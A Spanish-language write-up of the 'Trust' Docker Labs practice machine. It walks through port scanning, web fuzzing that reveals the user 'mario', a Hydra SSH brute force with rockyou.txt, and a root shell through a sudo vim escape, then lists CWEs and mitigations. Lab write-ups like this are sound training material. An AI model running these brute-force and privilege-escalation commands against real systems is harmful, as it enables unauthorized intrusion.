


| Plataforma          | Docker Labs |
| ------------------- | ----------- |
| Dificultad          | Muy Fácil   |
| IP de la Máquina    | 172.17.0.2  |
| Fecha de resolución | 03/10/2026  |
# 📑 WRITEUP: TRUST

> ℹ️ ****RESUMEN****
> - **IP Objetivo:** `172.17.0.2`
> - **Sistema Operativo:** Linux 🐧
> - **Descripción:** Laboratorio para practicar enumeración web, fuerza bruta SSH con Hydra y escalada de privilegios abusando de sudoers. 🔑
> - **Privilegios Obtenidos:** `root` 👑

---

## 🎯 FASE 1: RECONOCIMIENTO Y ENUMERACIÓN

### 💻 Conectividad Inicial
Determinamos el Sistema Operativo analizando el Time To Live (TTL) mediante un paquete ICMP:
```bash
ping -c 1 172.17.0.2
```


* **Diagnóstico:** TTL = `64`. Confirmamos directamente que se trata de un host **Linux**.

### 🔍 Mapeo de Puertos y Servicios
Lanzamos un escaneo con **Nmap** para descubrir los vectores de ataque expuestos.


| Puerto   | Servicio | Versión Detectada   | Estado / Nota                               |
| :------- | :------- | :------------------ | :------------------------------------------ |
| `22/TCP` | SSH      | OpenSSH 9.2p1       | 🔐 Vector de acceso (Fuerza Bruta Dirigida) |
| `80/TCP` | HTTP     | Apache httpd 2.4.58 | 🌐 Servidor Web Activo (Fuzzing)            |

#### Comando de Nmap utilizado:
```bash
sudo nmap -p- -sS -sV --min-rate 5000 -n -Pn --open 172.17.0.2
```

---

## ⚡ FASE 2: EXPLOTACIÓN (ACCESO INICIAL)

### 🌐 Fuzzing de Directorios Web
Al explorar el portal principal en `http://172.17.0.2` solo visualizamos una plantilla por defecto. 


Procedemos a realizar un escaneo de recursos ocultos con **Gobuster** buscando archivos ejecutables:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/big.txt -x html,php,txt -t 100 --exclude-length 10701
```


> 💡 **Recurso Oculto Detectado**
> El escaneo web revela la existencia de un archivo llamado **`secret.php`**. Al revisar el contenido del sitio, exfiltramos un texto o indicio que expone al usuario legítimo del sistema: **`mario`**.

```bash
curl -s http://172.17.0.2/secret.php
```



Encontramos un texto, por lo cual tenemos una pista de cual podría ser el usuario.
### 🔑 Ataque de Fuerza Bruta (SSH)
Con el usuario confirmado y descartada una inyección directa en la web, empleamos **Hydra** contra el puerto 22 cruzando el objetivo con el diccionario universal `rockyou.txt`:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```


> ✅ ****Credenciales Encontradas****
> - **Usuario:** `mario`
> - **Contraseña:** `chocolate`

Establecemos la sesión formal en el contenedor por medio de la consola SSH:
```bash
ssh mario@172.17.0.2
```


---

## 👑 FASE 3: ESCALADA DE PRIVILEGIOS

Estando dentro del sistema bajo el usuario `mario`, procedemos a recolectar los permisos de comandos con los que contamos.

### 🕵️ Análisis de Permisos Sudo
Consultamos las directivas de privilegios delegados asignadas a nuestro perfil actual:
```bash
sudo -l
```


> 📝 **Mala Configuración Crítica**
> El comando nos indica que el usuario `mario` puede ejecutar el editor de texto **Vim** como superusuario sin necesidad de autenticarse con clave (`NOPASSWD: /usr/bin/vim`).

### ⚔️ Explotación del Editor (Escape Vim)
Abusamos de la capacidad nativa de Vim para invocar subprocesos del sistema desde su propia interfaz (siguiendo las directrices de GTFOBins):

```bash
sudo vim -c ':!/bin/sh'
```

Comprobamos que la sesión remanente haya mutado de manera exitosa:
```bash
whoami
```



```bash
# Output directo de la consola comprometida:
root
```

> ✅ ****MÁQUINA COMPLETADA****
> Intrusión consolidada con éxito. Conseguimos comprometer en su totalidad el host **Trust** escalando a la identidad de **`root`** tras un proceso limpio de fuzzing e ingeniería inversa sobre el binario Vim.

---

## 🛠️ FASE 4: VULNERABILIDADES Y MITIGACIONES

CWE-250 Crítica

>mario puede ejecutar `vim` como `root`, debido a que se lanza una shell y gracias a esto podemos escalar a `root` (GTFOBins)

Mitigación

>Revocar permisos `NOPASSWD` a editores o herramientas capaces de romper el flujo del entorno (`vim`, `nano`, `less`), ya que permiten ejecuciones de comandos arbitrarios sin restricciones.

CWE-521 Alta

>El usuario `mario` tiene una contraseña débil y esta expuesta en el diccionario `rockyou` por el cual podemos acceder mediante un ataque de fuerza bruta por SSH

Mitigación

>Revisar las contraseñas de cuentas locales para evitar el uso de cadenas de texto simples expuestas en diccionarios masivos, autenticaciones por clave y bloqueo de intentos `Fail2Ban`

CWE-200 Medio

>Mediante el fuzzing de web encontramos un `secret.php` que deja ver el nombre de un usuario válido `mario`, que sirve de objetivo para la fuerza bruta

Mitigación

>Evitar almacenar nombres reales, cuentas o rutas experimentales (`secret.php`) legibles en directorios de producción de servidores web expuestos y controlar el acceso a los recursos no públicos.
